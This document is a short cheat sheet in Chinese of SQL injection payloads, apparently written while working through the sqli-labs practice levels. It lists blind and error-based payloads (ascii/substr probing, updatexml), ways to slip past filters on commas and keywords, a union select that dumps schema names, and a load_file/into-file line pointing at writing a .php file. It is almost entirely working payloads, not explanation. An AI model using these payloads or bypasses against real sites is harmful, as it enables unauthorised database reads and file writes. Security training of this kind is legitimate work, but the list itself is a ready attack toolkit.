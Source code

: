 ![image-20210714165926204](websafe/image-20210714165926204.png)

盲注payload（mid和substr被检测时可用）：**ascii(right(left(database(),m),1))** = n

控制m和n 对比数据库名称各位的ascii码值

and or  可以使用  anord    oandr     或者|| &&

%26=&

,逗号被检测可用使用0x2c /\*!,\*/ 还有join拼接方法代替

过滤了逗号 (1)limit处的逗号： limit 1 offset 0 (2)字符串截取处的逗号 mid处的逗号： mid(version() from 1 for 1) MSSQL： IS_SRVROLEMEMBER() IS_MEMBER() HAS_DBACCESS() convert() col_name() object_id() is_srvrolemember() is_member()

substr(database(),1,1) = 字母

mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

```mysql
##sqilab payoad

-1 union select -1,group_concat(schema_name)from information_schema.schemata,3,4 -- +


union select load_file() into ....../xx.php


##P12	POST 含有回显位
-admin") union select database(),version()#

##P13 	POST 无回显位但是有报错
admin') and updatexml(1,concat(0x5e,database()),1)#

##14	POST 双引号闭合报错注入
admin" and updatexml(1,concat(0x5e,version()),1)#

##15	POST 单引号闭合无回显无报错
admin' and length(database())=8#
后面使用ascii(substr(database(),1,1)) = 1判断

##16	POST ")闭合无回显无报错
admin") and length(database())=8#
后面使用ascii(substr(database(),1,1)) = 1判断
```